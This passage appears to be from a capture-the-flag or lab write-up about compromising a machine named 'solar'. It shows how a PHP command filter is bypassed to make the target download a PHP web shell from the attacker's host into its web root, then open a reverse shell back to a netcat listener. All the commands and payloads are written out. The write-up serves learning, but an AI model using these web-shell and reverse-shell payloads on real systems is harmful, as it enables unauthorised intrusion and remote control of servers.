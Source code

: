 We add the **name** parameter to the JSON sent to the `server/command/new` topic.

![command2](../../assets/images/solar/image-29.png)

We also add the `cmd` parameter, and we no longer receive any errors.

In the `/server.php` code, we see that the command is filtered using PHP's `escapeshellcmd` function. According to the PHP manual, this function...

```text
The following characters are preceded by a backslash: #&;`|*?~<>^()[]{}$\, \x0A and \xFF. ' and " are only escaped if they are not matched.
```

We prepare a PHP file and start a service on port 8000.

```bash
echo '<?php echo(exec($_GET["cmd"])); ?>' > shell.php 
python3 -m http.server 8000
```

and we send the following payload to the `server/command/new` topic to upload the `shell.php` file (previously created) to the `/var/www/solar.nyx/records/` directory, as other directories don't work, and we noticed that a PHP script (`/var/www/solar.nyx/records/index.php`) deletes files in this directory.

```json
{
  "name": "upload-revshell",
  "cmd": "curl -o /var/www/solar.nyx/records/shell.php http://192.168.1.116:8000/shell.php"
}
```

We execute the `upload-revshell` command from the `https://www.sunfriends.nyx/server.php` page and observe that the prepared `shell.php` is downloaded.

```bash
nc -lvnp 12345
```

We send the following `revshell` through the URL-encoded `cmd` parameter.

```bash
php -r '$sock=fsockopen("192.168.1.116",12345);exec("/bin/bash <&3 >&3 2>&3");'
```
